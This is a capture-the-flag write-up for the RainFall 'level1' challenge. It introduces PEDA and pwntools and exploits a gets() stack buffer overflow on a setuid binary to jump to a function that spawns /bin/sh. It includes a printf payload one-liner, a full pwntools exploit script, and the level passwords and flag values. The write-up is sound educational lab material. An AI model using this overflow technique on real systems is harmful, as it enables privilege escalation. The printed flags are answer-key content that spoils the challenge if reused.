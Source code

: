 # Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

To analyze the binary file we copy it to the host with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level1@localhost:/home/user/level1/level1 .
```

### PEDA

In order to use `PEDA` can just run it inside docker.
```bash
./peda.sh level1
# or
docker run -it -v "$abs_path":/mnt/binary gdb-peda-image bash -c "gdb -q /mnt/binary"
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function.

![disassembled main](../../docs/level1.peda.main.png)

We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function

![info functions](../../docs/level1.peda.info_functions.png)

From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```

![run function](../../docs/level1.peda.run.png)

Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We know that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution

Back to `PEDA`, we will use 2 commands:
- `pattern create`
- `pattern offset`

Before, we filled the buffer, and more, with an arbitrary number of our target address.
But say we want the offset between the begining of our buffer and the return address in the memory.
What we can do is:
- generate a long string with no similar subsequence of 4 characters `pattern create` [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- put it in the buffer
- look at the address called at program failure (it will be a sequence of 4 characters of the string)
- look at where in our string the subsequence appears
- count the number of characters before: `pattern offset`

![peda pattern create](../../docs/level1.peda.pattern.png)

![peda pattern offset](../../docs/level1.peda.offset.png)

With the following pattern, `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` the programs tries to execute the instructions at `0x41344141` or `"A4AA"`, which we find in the string only once.

We now know that the return address is 76 char after the start of the buffer.

We can use `pwntools`, and write an `exploit.py` script.

```python
from pwn import *

HOST = 'localhost'
PORT = 4243
# current level
USER = 'level1'
# pass for current level (in /home/user/{USER}/.pass)
PASS = '1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a'

def main():
    # creates a new ssh connection https://docs.pwntools.com/en/latest/tubes/ssh.html
    connection = ssh(host=HOST, port=PORT, user=USER, password=PASS)

    # requires python on remote server
    # binds to the binary /home/user/level1/level1
    process = connection.process(f'/home/user/{USER}/{USER}')

    # We know the offset is 76 from gdb exploration
    # We got 0x08048444 as the address of the first instruction of 'run'
    # The payload has to be 76 random char followed by the little endian form of the address
    payload = b'.'*76 + b'\x44\x84\x04\x08'

    process.sendline(payload)

    # Print the vm's stdout until first shell input
    print(process.recvuntil(b'$ '))

    process.sendline(b'cat /home/user/level2/.pass')
    # Print the flag
    print(process.recv())

main()
```

We will get the flag with
```bash
./pwntools.sh exploit.py
```
